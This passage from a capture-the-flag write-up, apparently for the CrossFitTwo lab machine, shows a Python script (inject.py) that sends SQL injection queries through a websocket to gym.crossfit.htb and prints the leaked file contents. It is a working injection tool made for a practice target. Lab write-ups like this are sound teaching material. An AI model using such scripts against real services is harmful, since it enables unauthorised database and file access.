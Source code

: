 [![sqli_ver](/img/crossfittwo/sqli_ver.png)](/img/crossfittwo/sqli_ver.png)

To make it more comfortable we can write a short python script to interact with the websocket using the `cmd` module. Since the websocket connection often closes after a certain idle time, we open a new connection for each query and set the current token to the server response. After sending our query we recieve the output and print it to the screen.

`inject.py`
```py
import websocket
import json
from cmd import Cmd

class Read_SQLI(Cmd):
    prompt = "sm1l3z > "

    def __init__(self):
        self.ws = websocket.WebSocket()
        self.token = ''
        Cmd.__init__(self)

    def open_connection(self):
        self.ws.connect('ws://gym.crossfit.htb/ws/')
        response = self.parse_json(self.ws.recv())
        self.token = response['token']

    def parse_json(self, data):
        if data == "ping":
            self.ws.send("pong")
            data = self.ws.recv()
        parsed = json.loads(data)
        return parsed

    def default(self, query):
        self.open_connection()
        payload  = '{"message":"available", "params" : '
        payload += f'''"-1 {query}"'''
        payload += ',"token":"' + self.token + '"}'
        self.ws.send(payload)
        response = self.parse_json(self.ws.recv())
        self.ws.close()
        file_content = response['debug'][17:-1]
        print(file_content)
```